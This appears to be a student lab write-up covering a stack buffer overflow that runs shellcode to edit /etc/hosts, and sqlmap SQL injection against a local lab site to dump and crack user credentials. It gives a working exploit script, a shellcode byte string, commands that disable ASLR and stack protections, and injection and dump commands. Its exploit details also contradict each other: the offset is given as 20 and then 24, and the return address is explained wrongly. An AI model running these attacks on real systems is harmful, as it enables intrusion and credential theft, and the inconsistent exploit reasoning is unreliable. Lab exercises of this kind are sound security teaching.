


# Task 1: Software buffer overflow attack

## Problem Statement

Given a vulnerable C program:

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
    char buffer[16];
    strcpy(buffer,argv[1]);
    return 0;
}
```

And a shellcode in assembly that adds a new entry to the hosts file:

```asm
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permissions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, don't forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
```

**Question 1**:
- Compile the assembly program and C program to executable code.
- Conduct the attack so that when the C executable code runs, the shellcode will be triggered and a new entry is added to the /etc/hosts file on your Linux system.
- You are free to choose either the Code Injection or Environment Variable approach to accomplish this.
- Write a step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplish the attack.

**Answer 1**:

Let's break down the process into detailed steps:

Step 0: Disable Address Space Layout Randomization (ASLR)

Before we begin, we need to disable ASLR to make our exploit more reliable:

```sh
sudo sysctl -w kernel.randomize_va_space=0
```


Explanation:
- `kernel.randomize_va_space=0`: This disables ASLR, a security feature that randomizes memory addresses. Disabling it makes our exploit more predictable.

Step 1: Compile the vulnerable C program

We'll compile the C program with specific flags to make it more vulnerable:

```bash
gcc main.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
```


Explanation of compilation flags:
- `-o vuln.out`: Names the output executable "vuln.out"
- `-fno-stack-protector`: Disables stack canaries, a security feature that helps detect buffer overflows
- `-z execstack`: Makes the stack executable, allowing our injected shellcode to run
- `-mpreferred-stack-boundary=2`: Aligns the stack to 4 bytes, which can simplify our exploit

Step 2: Compile the Assembly shellcode

Now we'll compile the provided assembly shellcode:

```bash
nasm -f elf32 shellcode.asm -o shellcode.o
ld -m elf_i386 shellcode.o -o shellcode
```


Explanation:
- `nasm -f elf32 shellcode.asm -o shellcode.o`: Assembles the shellcode into a 32-bit ELF object file
- `ld -m elf_i386 shellcode.o -o shellcode`: Links the object file into an executable

Step 3: Extract the shellcode

We need to extract the raw bytes of our shellcode:

```bash
objdump -d shellcode | grep '[0-9a-f]:' | cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
```


Explanation of the command:
- `objdump -d shellcode`: Disassembles the shellcode executable
- The rest of the command processes the output to extract just the bytes of the shellcode in a format we can use in our exploit

Step 4: Create an exploit script

We'll create a Python script to generate our payload:


First, we need to find the return address, offset, and buffer size:

```sh
objdump -d vuln.out | grep -A20 "<main>:"
```


From this output, we can determine:
- Buffer size is 16 bytes
- Offset is 20 bytes (16 bytes buffer + 4 bytes saved EBP)
- Return address is 0x0804842c (address of the instruction after the call to strcpy)

Now, let's create our exploit script:

```python
import struct

# Shellcode (paste the extracted shellcode here)
shellcode = b"\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x6f\x73\x74\x73\x68\x2f\x2f\x2f\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x93\x6a\x04\x58\xeb\x10\x59\x6a\x14\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xeb\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65\x2e\x63\x6f\x6d"

# Buffer overflow parameters
buffer_size = 16
offset = 24  # 16 bytes buffer + 4 bytes saved EBP + 4 bytes alignment
return_address = struct.pack("<I", 0x0804842c)

# Construct the payload
payload = shellcode
payload += b"A" * (offset - len(shellcode))
payload += return_address

# Write payload to a file
with open("payload", "wb") as f:
    f.write(payload)

print("Exploit payload created successfully.")
```

Run the script:
```bash
python main.py
```


Explanation:
- We construct a payload that includes our shellcode, followed by padding to reach the return address
- The return address is overwritten with the address where our shellcode begins

Step 5: Run the exploit

Now we'll execute the vulnerable program with our payload:

```bash
./vuln.out $(cat payload)
```


Result: We see a Segmentation fault. This is expected because:
- The buffer overflow successfully overwrites the return address
- The program attempts to return to our shellcode
- Our shellcode executes, modifying /etc/hosts
- After the shellcode finishes, it doesn't properly return control, causing a crash

Step 6: Verify the attack

Let's check the contents of /etc/hosts to confirm the new entry:

```bash
cat /etc/hosts
```

Result:
```sh
seed@9c4e8d41fb5c:~/seclabs$ cat /etc/hosts
127.0.0.1       google.com
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.3      9c4e8d41fb5c
127.1.1.1 google.com
```


Explanation:
- The new entry "127.1.1.1 google.com" has been successfully added to the /etc/hosts file
- This confirms that our shellcode executed as intended, despite the segmentation fault

**Conclusion**: 
We successfully executed a buffer overflow attack on the vulnerable C program. By carefully crafting our payload, we were able to inject shellcode that modified the system's /etc/hosts file. This demonstration highlights the severe security implications of buffer overflow vulnerabilities, especially in programs compiled without proper protections.

Key points:
1. Disabling ASLR and compiler protections made the exploit more reliable.
2. Precise calculation of buffer sizes and memory addresses was crucial for the exploit's success.
3. The attack succeeded in modifying a system file, showing how buffer overflows can lead to privilege escalation.
4. The segmentation fault at the end doesn't prevent the attack from succeeding, as the damage is done before the crash.

This exercise underscores the importance of secure coding practices and the use of modern compiler protections to prevent such vulnerabilities.


# Task 2: Attack on the database of Vulnerable App from SQLi lab 
- Start docker container from SQLi. 

Run docker container from SQLi:
```sh
docker compose up -d
```



Website running on port 3128.



- Install sqlmap.
To get into the Linux command line of the Docker container and install sqlmap, you can follow these steps:

1. First, identify the container name or ID. From the Docker Compose file, we can see that the web container is named `www-10.9.0.5`. You can verify this by running:

```bash
docker ps
```


2. To enter the container's command line, use:

```bash
docker exec -it www-10.9.0.5 /bin/bash
```

3. Once inside the container, you'll need to update the package lists and install sqlmap. However, the container might be running a minimal image that doesn't include package managers. If that's the case, you'll need to install them first. Here are the steps:

```bash
# Update package lists
apt-get update

# Install Python and pip (if not already installed)
apt-get install -y python3 python3-pip

# Install sqlmap using pip
pip3 install sqlmap
```

Another way to install sqlmap in terminal:
```sh
pip install sqlmap
```

4. After installation, you can verify sqlmap is installed by running:

```bash
sqlmap --version
```


- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

Use script into terminal:
```sh
py sqlmap.py -u "http://localhost:3128" --level=3 --dbs
```


Detect database is MySQL.


Detect 79 tables.


Detailed explanation:
- `py sqlmap.py`: This runs the sqlmap Python script.
- `-u "http://localhost:3128"`: Specifies the target URL to test for SQL injection vulnerabilities.
- `--level=3`: Sets the level of tests to perform. Level 3 is more thorough than the default and includes more payload tests.
- `--dbs`: Instructs sqlmap to enumerate and retrieve the names of all available databases on the target system.

This command attempts to exploit SQL injection vulnerabilities in the target URL to discover all databases accessible to the application. The higher level (3) increases the chances of finding vulnerabilities but may also increase the time taken and the load on the target server.

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

Use script into terminal:
```sh
py sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=Admin'--&Password=" --level=5 --risk=3 --tables --users --dump
```


Detailed explanation:
- `-u "http://localhost:3128/unsafe_home.php?username=Admin'--&Password="`: Specifies the target URL, including a potential injection point in the username parameter.
- `--level=5`: Sets the highest level of tests, which includes all possible injection techniques and locations.
- `--risk=3`: Sets the highest risk level, allowing sqlmap to use potentially dangerous payloads that might affect database integrity.
- `--tables`: Instructs sqlmap to enumerate all tables in the discovered databases.
- `--users`: Tells sqlmap to retrieve information about database users.
- `--dump`: Attempts to dump the contents of all discovered tables.

This comprehensive command attempts to exploit the SQL injection vulnerability to extract as much information as possible, including table structures, user details, and table contents. The high level and risk settings make this a very aggressive scan, which could potentially cause issues with the target database if not used carefully.


Database users tables store in `C:\AnhTuDev\Uni\IS\lab-is\submission\lab_1_02FIE\task_2\code\sqlmap-dev\data\txt\common-columns.txt`

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

Use script into terminal:
```sh
py sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=Admin'--&Password=" --dump -D sqllab_users -T credential --batch --output-dir=./sqlmap_output
```

Check output in `sqlmap_output` folder.


Check table `credential` in `sqllab_users` database.


You can see the password of all database users in `sqlmap_output` folder or `credential` table.

Detailed explanation:
- `-u "http://localhost:3128/unsafe_home.php?username=Admin'--&Password="`: Specifies the target URL with a potential injection point.
- `--dump`: Instructs sqlmap to retrieve and output the contents of the specified table.
- `-D sqllab_users`: Specifies the target database name.
- `-T credential`: Specifies the target table name within the database.
- `--batch`: Runs sqlmap in non-interactive mode, automatically choosing default actions without user input.
- `--output-dir=./sqlmap_output`: Directs sqlmap to save all output files in the specified directory.

This command focuses on extracting the contents of the 'credential' table from the 'sqllab_users' database, which likely contains user login information. The `--batch` option automates the process, and the output is saved to a specific directory for easy access.

While the question mentions John the Ripper, the sqlmap command doesn't directly use it. To use John the Ripper with the extracted passwords:

1. Extract the password hashes from the sqlmap output.
2. Save these hashes in a file (e.g., `hashes.txt`).
3. Run John the Ripper on this file:

```bash
john hashes.txt
```

John the Ripper will attempt to crack the password hashes using various techniques and wordlists. The cracked passwords can then be viewed using:

```bash
john --show hashes.txt
```

This process allows you to potentially reveal the plaintext passwords of database users, demonstrating the importance of using strong, unique passwords and properly securing sensitive information.

**Conclusion**:

- Use sqlmap to get information about all available databases.
- Use sqlmap to get tables, users information.
- Make use of John the Ripper to disclose the password of all database users from the above exploit.


